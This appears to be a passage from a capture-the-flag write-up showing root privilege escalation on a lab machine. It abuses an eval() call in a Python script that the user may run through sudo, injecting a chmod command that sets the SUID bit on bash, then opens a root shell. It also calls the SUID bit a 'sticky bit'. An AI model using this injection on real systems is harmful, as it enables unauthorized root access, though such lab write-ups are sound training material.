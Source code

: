 First things first, run *sudo -l* to see what this account can execute as root
```bash
development@bountyhunter:/opt/skytrain_inc$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
Checking out the */opt/skytrain_inc/ticketValidator.py* script shows there is an eval() near the bottom of the file that accepts user input
![[Pasted image 20210806133807.png]]
Craft a ticket that will set the SUID bit for /usr/bin/bash
```python
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**18+__import__('os').system('chmod u+s /usr/bin/bash')
```
Run the script with this ticket as root and check out /usr/bin/bash
```bash
development@bountyhunter:/opt/skytrain_inc$ ls -la /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /usr/bin/bash
```
Notice the sticky bit is now set -> Run */usr/bin/bash -p* to get a shell as root
```bash
development@bountyhunter:/opt/skytrain_inc$ /usr/bin/bash -p
bash-5.0# id
uid=1000(development) gid=1000(development) euid=0(root) groups=1000(development)
```